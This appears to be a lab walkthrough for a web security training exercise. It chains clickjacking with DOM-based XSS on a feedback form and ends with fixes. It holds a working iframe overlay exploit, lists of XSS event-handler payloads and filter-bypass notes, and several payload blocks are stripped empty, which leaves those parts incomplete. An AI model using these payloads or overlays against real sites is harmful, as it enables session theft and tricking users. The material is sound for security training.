

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Find DOM-based XSS vulnerability in feedback form
- 🎯 Combine XSS with clickjacking attack
- 🖼️ Pre-fill XSS payload via URL parameters
- 👆 Trick user into clicking "Submit feedback" button
- 🖨️ Execute `print()` function in victim's browser
- 🎉 Complete lab

---

## 🧠 **Concept Recap**

> **Clickjacking + DOM XSS** is a powerful attack combination where clickjacking is used as a delivery mechanism for XSS payloads. The attacker pre-fills a vulnerable form field with an XSS payload via URL parameters, then uses clickjacking to trick the victim into submitting the form, thereby triggering the XSS.

### 📊 **The Vulnerability Chain**

**Two Vulnerabilities Combined:**

```js
Vulnerability #1: DOM-based XSS
└── Feedback form reflects user input into DOM
    └── Input not properly sanitized
        └── XSS payload executes

Vulnerability #2: No Clickjacking Protection
└── Page can be framed in iframe
    └── No X-Frame-Options header
        └── Clickjacking possible

Combined Attack:
└── Clickjacking delivers XSS payload
    └── User clicks thinking it's harmless
        └── XSS executes in their context
```

**Attack Flow:**

```js
Step 1: Find DOM XSS
┌────────────────────────────────┐
│ /feedback?name=<script>...     │
│                                │
│ Input reflected into DOM       │
│ XSS triggers on submission     │
└────────────────────────────────┘

Step 2: Craft Clickjacking Overlay
┌────────────────────────────────┐
│ Attacker Page                  │
│  ┌──────────────────────────┐  │
│  │ Invisible iframe         │  │
│  │ Pre-filled with XSS      │  │
│  │                          │  │
│  │ [Submit] ← Hidden button │  │
│  └──────────────────────────┘  │
│                                │
│  "Click me" ← Visible decoy    │
└────────────────────────────────┘

Step 3: Victim Interaction
┌────────────────────────────────┐
│ Victim sees: "Click me"        │
│ Victim clicks                  │
│ Actually clicks: Submit button │
│ Form submits with XSS payload  │
│ XSS executes: print()          │
└────────────────────────────────┘
```

**Key Insight:**

```
Why this is more powerful than simple clickjacking:

Simple Clickjacking:
└── Tricks user into performing allowed action
    └── Like deleting account, changing email
        └── Limited to existing functionality

Clickjacking + XSS:
└── Tricks user into executing arbitrary code
    └── XSS payload can do anything
        └── Steal cookies, redirect, deface page
            └── Much more dangerous!

The combination:
1. Pre-fill form with XSS payload (via URL)
2. Hide form in invisible iframe
3. Position decoy button over Submit button
4. User clicks decoy → Submits XSS payload
5. DOM XSS triggers → Arbitrary JavaScript runs
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 - Access Lab and Explore**

1. 🌐 Click **"Access the lab"**
2. 👀 Browse the blog application
3. 🔍 Click **"Submit feedback"** at the top

**What you see:**

```
Feedback Form:
├── Name field
├── Email field
├── Subject field
├── Message textarea
└── "Submit feedback" button ⭐ (Our target!)
```

---

### 🔍 **Step 2 - Test for DOM XSS**

**Try basic XSS in the Name field:**

1. 📝 Enter in Name field: `<script>alert(1)</script>`
2. ✉️ Fill other required fields (email, subject, message)
3. 🖱️ Click **"Submit feedback"**

**Response:**

```js
"Thank you for submitting feedback, <script>alert(1)</script>!"
                                      ↑ Script tags visible but not executing
```

**Why it doesn't execute:**

```
The script tag is inserted AFTER page load
└── Browser already parsed <script> tags
    └── New <script> tags are treated as text
        └── Won't execute

We need a different XSS vector!
```

---

### 💡 **Step 3 - Try Alternative XSS Payload**

**Use an event handler instead of `<script>` tags:**

```html

```

**Why this works:**

```
 tag approach:
1. Creates an  element in DOM
2. Sets src="x" (non-existent image)
3. Image fails to load
4. onerror event triggers
5. JavaScript in onerror executes! ✓

This bypasses the <script> tag limitation!
```

**Test it:**

1. 📝 Enter in Name field: ``
2. ✉️ Fill other fields
3. 🖱️ Click **"Submit feedback"**

**Result:**

```
✅ Alert popup appears!
✅ XSS confirmed!

The response shows:
"Thank you for submitting feedback, [img loads here], !"
                                     ↑ 
                                  onerror triggers
                                  alert(1) executes
```

---

### 🎯 **Step 4 - Test URL Parameter Injection**

**Feedback forms often accept URL parameters for pre-filling:**

```js
Try visiting:
/feedback?name=TEST&email=test@test.com&subject=TEST&message=TEST
```

1. 🌐 Navigate to: `/feedback?name=TestName&email=test@test.com&subject=TestSubject&message=TestMessage`
2. 👀 Observe the form

**Result:**

```
✅ Form fields are pre-filled!
├── Name: TestName
├── Email: test@test.com
├── Subject: TestSubject
└── Message: TestMessage

This means:
└── We can inject XSS payload via URL!
    └── No need for user to type it
        └── Perfect for clickjacking!
```

---

### 🔬 **Step 5 - Craft XSS Payload with print()**

**Lab requirement: Call the `print()` function**

**Payload:**

```html

```

**URL-encoded version (for URL parameter):**

```js
Raw payload:


URL-encoded:

or

```

**Test the payload:**

```
Visit:
/feedback?name=&email=test@test.com&subject=test&message=test
```

1. 🌐 Navigate to the URL above (replace with your lab ID)
2. 🖱️ Click **"Submit feedback"** button
3. 👀 Observe the result

**Expected result:**

```
✅ Browser print dialog opens!
✅ print() function executed!
✅ XSS payload works!

Now we just need to deliver this via clickjacking!
```

---

### 🖼️ **Step 6 - Go to Exploit Server**

1. 🖱️ Click **"Go to exploit server"**
2. 📝 You'll see a form with **Body** field

---

### 🎨 **Step 7 - Create Clickjacking Template**

**Paste this template into the Body field:**

```html
<style>
    iframe {
        position: relative;
        width: 1000px;
        height: 900px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 810px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/feedback?name=&email=test@test.com&subject=test&message=test"></iframe>
```

**Replace YOUR-LAB-ID with your actual lab ID!**

**Understanding the URL:**

```js
Base URL:
/feedback

With XSS payload:
/feedback?name=

With all required fields:
/feedback?name=&email=test@test.com&subject=test&message=test
           ↑ XSS payload            ↑ Required fields to avoid errors
```

---

### 🎯 **Step 8 - Test and Adjust Positioning**

1. 📝 Click **"Store"** to save
2. 👁️ Click **"View exploit"** to open in new tab

**What you should see:**

```
With opacity: 0.1 (10% visible):
┌─────────────────────────────────┐
│                                 │
│  [Feedback form visible through │
│   transparency]                 │
│                                 │
│                                 │
│                                 │
│         Click me  ← Visible     │
│                                 │
└─────────────────────────────────┘

Goal: Position "Click me" over "Submit feedback" button
```

**Positioning adjustments:**

```
If "Click me" is:
├── Too high → Increase top value (610px → 620px)
├── Too low → Decrease top value (610px → 600px)
├── Too far left → Increase left value (80px → 90px)
├── Too far right → Decrease left value (80px → 70px)
```

**Common working values:**

```r
div {
    position: absolute;
    top: 810px;      /* Usually 600-820px for Submit button */
    left: 70px;      /* Usually 65-85px */
    z-index: 1;
}
```

**Testing process:**

```
1. Keep opacity at 0.1 (to see alignment)
2. Adjust top/left values
3. Store and view exploit
4. Hover over "Click me"
5. Cursor should change to pointer over Submit button
6. Verify alignment
7. DO NOT click yourself! (will trigger print() in your browser)
```

---

### ✅ **Step 9 - Finalize Exploit**

**Once positioned correctly:**

1. Change opacity to nearly invisible: `opacity: 0.0001`
2. **Store** the exploit

**Final exploit code:**

```r
<style>
    iframe {
        position: relative;
        width: 1000px;
        height: 900px;
        opacity: 0.0001;       /* Nearly invisible */
        z-index: 2;
    }
    div {
        position: absolute;
        top: 810px;            /* Your adjusted value */
        left: 70px;            /* Your adjusted value */
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a1b2c3d4e5f6789.web-security-academy.net/feedback?name=&email=test@test.com&subject=test&message=test"></iframe>
```

---

### 🚀 **Step 10 - Deliver Exploit to Victim**

1. ✅ Verify exploit is stored
2. 🎯 Click **"Deliver exploit to victim"**
3. ⏳ Wait a few seconds

---

### 🎉 **Step 11 - Lab Completion**

**What happens:**

```
Victim's browser:
1. Loads exploit page
2. Sees "Click me" text (decoy)
3. Iframe loads feedback form (invisible)
4. Form pre-filled with XSS payload
5. Victim clicks "Click me"
6. Actually clicks "Submit feedback" button
7. Form submits
8. DOM XSS triggers
9. print() function executes
10. Print dialog opens on victim's screen!
```

**Lab completion:**

```
System checks:
├── Exploit delivered to victim? ✓
├── Victim clicked overlay? ✓
├── Feedback form submitted? ✓
├── XSS payload executed? ✓
├── print() function called? ✓
└── Attack successful? ✓

Result: LAB SOLVED!
```

**Completion banner:**

```
┌─────────────────────────────────┐
│  ✅ Congratulations!            │
│                                 │
│  You successfully combined      │
│  clickjacking with DOM-based    │
│  XSS to execute the print()     │
│  function in the victim's       │
│  browser.                       │
│                                 │
│  Lab: Exploiting clickjacking   │
│       vulnerability to trigger  │
│       DOM-based XSS             │
│  Status: SOLVED ✓               │
└─────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and explore
         ↓
Step 2: Find feedback form
         ↓
Step 3: Test for XSS with <script>alert(1)</script>
         → Doesn't execute ❌
         ↓
Step 4: Try alternative: 
         → Executes! ✓
         ↓
Step 5: Test URL parameters for pre-filling
         → Works! ✓
         ↓
Step 6: Craft payload with print()
         /feedback?name=
         ↓
Step 7: Go to exploit server
         ↓
Step 8: Create clickjacking HTML
         (iframe with pre-filled XSS payload)
         ↓
Step 9: Adjust positioning (opacity: 0.1)
         ↓
Step 10: Finalize (opacity: 0.0001)
         ↓
Step 11: Store exploit
         ↓
Step 12: Deliver exploit to victim
         ↓
Step 13: Victim clicks, XSS triggers, print() runs! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **DOM-based XSS in Feedback Form**

**Vulnerable code (client-side JavaScript):**

```r
// ❌ VULNERABLE CODE

// Get URL parameters
const urlParams = new URLSearchParams(window.location.search);
const name = urlParams.get('name');
const email = urlParams.get('email');
const subject = urlParams.get('subject');
const message = urlParams.get('message');

// Pre-fill form fields
if (name) {
    document.getElementById('name').value = name;
}

// On form submission
function submitFeedback() {
    const userName = document.getElementById('name').value;
    
    // VULNERABILITY: Direct insertion into DOM
    const feedbackResult = document.getElementById('feedbackResult');
    feedbackResult.innerHTML = "Thank you for submitting feedback" + 
                                (userName ? ", " + userName : "") + "!";
    //                          ↑ User input directly in innerHTML!
}

// Problem:
// └── innerHTML interprets HTML/JavaScript
//     └── User input not sanitized
//         └── XSS payload executes!
```

**Why `` tags work but `<script>` tags don't:**

```r
// Scenario 1: <script> tag injection
feedbackResult.innerHTML = "Thank you, <script>alert(1)</script>!";

// What happens:
// 1. Page already loaded and parsed
// 2. Browser already processed all <script> tags
// 3. New <script> tag added to DOM
// 4. But browser won't execute new <script> tags
// 5. ❌ Attack fails


// Scenario 2:  tag with onerror
feedbackResult.innerHTML = "Thank you, !";

// What happens:
// 1.  tag created in DOM
// 2. Browser tries to load image from src="x"
// 3. Image doesn't exist (404 error)
// 4. onerror event handler triggers
// 5. JavaScript in onerror executes
// 6. ✅ Attack succeeds!
```

---

### **Why URL Parameters Enable the Attack**

**Form pre-filling logic:**

```r
// Application code
function preFillForm() {
    const params = new URLSearchParams(window.location.search);
    
    // Pre-fill each field from URL
    document.getElementById('name').value = params.get('name') || '';
    document.getElementById('email').value = params.get('email') || '';
    document.getElementById('subject').value = params.get('subject') || '';
    document.getElementById('message').value = params.get('message') || '';
}

// This is INTENDED functionality for user convenience
// But it becomes an attack vector when combined with XSS!
```

**Attack exploitation:**

```r
Normal use case:
/feedback?name=John&email=john@example.com
└── User convenience: form pre-filled

Malicious use case:
/feedback?name=&email=test@test.com
└── Attacker pre-fills XSS payload
    └── Combined with clickjacking
        └── User unknowingly submits payload
            └── XSS executes!
```

---

### **The Clickjacking Delivery Mechanism**

**Why clickjacking is perfect for this attack:**

```
Without Clickjacking:
└── Attacker sends: /feedback?name=<xss payload>
    └── User sees suspicious URL
        └── User suspicious of pre-filled data
            └── User might not submit
                └── ❌ Attack likely fails

With Clickjacking:
└── Attacker page looks harmless
    └── User sees: "Click me to win prize!"
        └── User clicks willingly
            └── Actually submits hidden form
                └── ✅ Attack succeeds

Benefits:
├── User doesn't see suspicious URL
├── User doesn't see pre-filled XSS payload
├── User performs action unknowingly
└── Social engineering much easier
```

---

## 🎯 **Quick Reference**

### **Common XSS Event Handlers**

```r
<!-- Image-based -->


<!-- Body-based -->
<body onload=alert(1)>
<body onpageshow=alert(1)>

<!-- SVG-based -->
<svg onload=alert(1)>
<svg><animate onbegin=alert(1)>

<!-- Input-based -->
<input onfocus=alert(1) autofocus>
<input onblur=alert(1) autofocus><input autofocus>

<!-- Other useful handlers -->
<details open ontoggle=alert(1)>
<marquee onstart=alert(1)>
<video src=x onerror=alert(1)>
<audio src=x onerror=alert(1)>
```

---

### **URL Encoding Reference**

```r
Character → URL Encoded
─────────────────────────
Space     → +  or  %20
<         → %3C
>         → %3E
"         → %22
'         → %27
=         → %3D
(         → %28
)         → %29

Example payload:


URL encoded:
%3Cimg+src%3Dx+onerror%3Dprint()%3E

Or mixed (often works):

```

---

### **Positioning Values for Feedback Forms**

```r
/* Submit button typically at bottom of form */
div {
    top: 810px;      /* Range: 600-730px */
    left: 70px;      /* Range: 65-90px */
}

/* If form has different layout, adjust accordingly */
```

---

## 🔬 **Advanced Concepts**

### **Why innerHTML is Dangerous**

```r
// ❌ UNSAFE: innerHTML executes scripts
element.innerHTML = userInput;
// If userInput = ""
// → XSS executes!

// ✅ SAFE: textContent treats everything as text
element.textContent = userInput;
// If userInput = ""
// → Displays as literal text, doesn't execute

// ✅ SAFE: createElement with controlled attributes
const text = document.createTextNode(userInput);
element.appendChild(text);
// → Always safe, treats input as text
```

---

### **DOM XSS vs Reflected XSS**

```
Reflected XSS:
┌─────────────────────────────────┐
│ Client → Server → Response      │
│                                 │
│ Payload sent to server          │
│ Server includes it in response  │
│ Browser executes it             │
└─────────────────────────────────┘

DOM-based XSS:
┌─────────────────────────────────┐
│ Client → JavaScript → DOM       │
│                                 │
│ Payload never sent to server    │
│ JavaScript reads from URL/local │
│ JavaScript writes to DOM        │
│ Browser executes it             │
└─────────────────────────────────┘

Key differences:
├── DOM XSS: Client-side only
├── Reflected XSS: Server processes it
└── DOM XSS: Often in URL fragments (#)
    or URL parameters read by JavaScript
```

---

### **Alternative XSS Payloads for print()**

```r
<!-- Basic image onerror -->


<!-- SVG onload -->
<svg onload=print()>

<!-- Body onload (if injected in body context) -->
<body onload=print()>

<!-- Details ontoggle -->
<details open ontoggle=print()>

<!-- Input autofocus -->
<input onfocus=print() autofocus>

<!-- Video onerror -->
<video src=x onerror=print()>

<!-- Iframe srcdoc -->
<iframe srcdoc="<script>parent.print()</script>">

<!-- Object data -->
<object data="javascript:print()">

<!-- Embed src -->
<embed src="javascript:print()">
```

---

### **Bypassing WAF/Filters**

```js
<!-- Case variation -->


<!-- Alternative quotes -->


<!-- Without quotes -->


<!-- HTML entities -->


<!-- Unicode encoding -->


<!-- Comments -->


<!-- Line breaks -->


<!-- Tab characters -->

```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Prevent XSS (textContent)**

```javascript
// ✅ SECURE VERSION - Use textContent

function submitFeedback() {
    const userName = document.getElementById('name').value;
    const feedbackResult = document.getElementById('feedbackResult');
    
    // SAFE: textContent doesn't execute HTML/JavaScript
    feedbackResult.textContent = "Thank you for submitting feedback" + 
                                  (userName ? ", " + userName : "") + "!";
    
    // Alternative: create text node
    // feedbackResult.appendChild(document.createTextNode(userName));
}

// Benefits:
// ✅ User input treated as plain text
// ✅ XSS impossible
// ✅ Simple fix
```

---

### **Fix 2: Sanitize Input (DOMPurify)**

```javascript
// ✅ SECURE VERSION - Sanitize with DOMPurify

// Include DOMPurify library
// <script src="https://cdn.jsdelivr.net/npm/dompurify@2.4.0/dist/purify.min.js"></script>

function submitFeedback() {
    const userName = document.getElementById('name').value;
    const feedbackResult = document.getElementById('feedbackResult');
    
    // Sanitize user input
    const clean = DOMPurify.sanitize(userName);
    
    feedbackResult.innerHTML = "Thank you for submitting feedback" + 
                                (clean ? ", " + clean : "") + "!";
}

// Benefits:
// ✅ Removes dangerous HTML/JavaScript
// ✅ Allows safe HTML (like <b>, <i>)
// ✅ Industry-standard library
```

---
